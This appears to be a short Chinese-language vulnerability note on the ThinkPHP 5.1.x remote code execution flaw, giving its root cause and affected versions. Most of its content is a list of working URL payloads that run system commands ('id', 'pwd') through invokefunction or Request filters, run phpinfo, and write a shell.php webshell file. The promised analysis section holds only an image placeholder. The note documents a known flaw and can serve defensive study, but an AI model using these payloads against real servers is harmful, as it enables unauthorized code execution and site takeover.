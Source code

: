 ```yaml
---
type: sec-note
title: thinkphp 5.1.x RCE
tags:
  - php
  - thinkphp
  - 漏洞分析
---
```

# thinkphp 5.1.x RCE

## 参考文章

[https://xz.aliyun.com/t/9369](https://xz.aliyun.com/t/9369)

## RCE1

### 根本原因

thinkphp没有对用户传入的操作器名称进行过滤,导致可以调用顶部类中的方法,造成一系列的危害

### 影响版本

TP5.1.0-5.1.30

### payload

 ```PHP
 ?s=index/\think\Request/input&filter[]=system&data=pwd
 ?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>#注意由于windows不区分大小写的原因所以这个payload在windows下无法使用
 ?s=index/\think\template\driver\file/write&cacheFile=shell.php&content=<?php phpinfo();?>
 ?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 ?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=id
 ```


### 分析
![](attachment/images/thinkphp5.1_rce.png)